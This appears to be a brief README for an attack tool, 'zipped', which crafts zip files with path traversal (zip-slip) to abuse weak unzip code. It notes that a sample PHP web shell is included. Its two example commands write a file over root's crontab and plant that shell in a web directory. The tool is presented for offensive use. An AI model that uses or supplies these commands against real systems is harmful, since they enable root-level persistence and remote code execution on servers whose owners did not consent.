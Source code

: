 # zipped
Tool to create custom zip files with path traversal for certain bad unzip implementations.

Includes sample PHP shell (sh.php)

# Example Usage
`./zipped crontab cron.zip ../../../../../../../var/spool/cron/crontabs/root`

`./zipped sh.php sh.zip ../../../../../www/sh.php`
